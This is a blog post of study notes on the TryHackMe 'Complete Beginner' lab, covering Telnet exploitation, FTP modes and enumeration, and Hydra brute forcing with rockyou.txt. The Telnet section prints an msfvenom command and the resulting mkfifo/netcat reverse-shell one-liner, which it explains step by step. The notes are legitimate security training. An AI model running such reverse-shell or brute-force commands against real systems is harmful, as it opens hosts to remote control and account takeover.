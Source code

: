 # TryHackMe: Complete Beginner

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \\icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | /bin/sh >/tmp/qdsrgu 2>&1; rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren’t literal — they’re *actually* the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The [active vs. passive FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Communication_and_data_transfer) distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

* Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.
* Passive FTP: The server opens a port which the client connects to when establishing the data channel.

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. [Some (older) FTP daemons have a vulnerability](https://www.exploit-db.com/exploits/20745) where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently [a list of 14 million passwords](https://github.com/zacheller/rockyou) dumped during [the hack of some service called RockYou](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/) that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

- - - -

👤 Nathan Acks
📅 October 2, 2021
